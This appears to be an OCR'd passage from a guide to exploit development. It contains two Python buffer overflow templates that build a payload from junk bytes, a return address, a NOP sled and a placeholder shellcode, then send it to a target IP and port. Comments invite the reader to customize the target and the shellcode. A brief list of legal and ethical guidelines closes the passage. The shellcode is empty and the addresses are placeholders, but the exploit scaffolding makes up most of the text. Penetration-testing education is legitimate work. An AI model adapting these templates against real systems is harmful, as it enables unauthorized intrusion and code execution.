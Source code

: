 ``````shell-session

### Example Modifications

#### Python Exploit Customization
```python
# Original exploit snippet
import socket
target_ip = "192.168.1.100"  # Modify this
target_port = 80             # Modify this

# Payload modification
payload = b"A" * 1024 + b"\x90" * 16 + shellcode  # Customize shellcode

# Add error handling
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(payload)
except Exception as e:
    print(f"Exploit failed: {e}")
```

## Manual Exploit Development

### Buffer Overflow Template
```python
#!/usr/bin/env python3
import socket
import sys

# Target configuration
target_ip = "TARGET_IP"
target_port = TARGET_PORT

# Exploit components
offset = 1024  # EIP offset
ret_addr = b"\x42\x42\x42\x42"  # Return address
nops = b"\x90" * 16  # NOP sled
shellcode = b""  # Payload

# Build exploit
buffer = b"A" * offset + ret_addr + nops + shellcode

# Send exploit
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(buffer)
    s.close()
    print("Exploit sent successfully")
except Exception as e:
    print(f"Error: {e}")
```

## Security Considerations

### Legal and Ethical Guidelines

- Only use exploits on systems you're authorized to test
- Verify exploit safety before execution
- Document all exploitation attempts
- Follow responsible disclosure for new vulnerabilities
- Understand potential collateral damage

``````